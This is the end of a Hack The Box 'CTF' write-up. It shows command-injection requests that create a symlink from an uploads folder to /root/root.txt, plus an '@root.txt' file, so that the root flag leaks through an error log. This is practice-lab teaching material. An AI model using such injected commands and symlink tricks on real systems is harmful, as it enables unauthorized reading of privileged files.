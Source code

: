 <br> I created a `symlink` to `/root/root.txt` as `root.txt` :
```
inputCmd=ln -s /root/root.txt uploads/root.txt&inputOTP=91913130
```
<br> Then I created an empty file and called it `@root.txt` :
```
inputCmd=touch uploads/@root.txt&inputOTP=91913130
```
<br> Let's check the directory listing now :
```
inputCmd=ls -la uploads&inputOTP=91913130

total 0
drwxr-x--x. 2 apache apache  39 Jul 20 01:12 .
drwxr-xr-x. 6 root   root   176 Oct 23  2018 ..
-rw-r--r--. 1 apache apache   0 Jul 20 01:12 @root.txt
lrwxrwxrwx. 1 apache apache  14 Jul 20 01:12 root.txt -> /root/root.txt
```
<br> Everything is fine let's check the error log :
![](/images/hackthebox/ctf/17.png)
<br> And we owned root !
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br>
<br>
<br> Previous Hack The Box write-up : [Hack The Box - Friendzone](/hack-the-box/friendzone/)
<br> Next Hack The Box write-up : [Hack The Box - LaCasaDePapel](/hack-the-box/lacasadepapel/)
<hr>
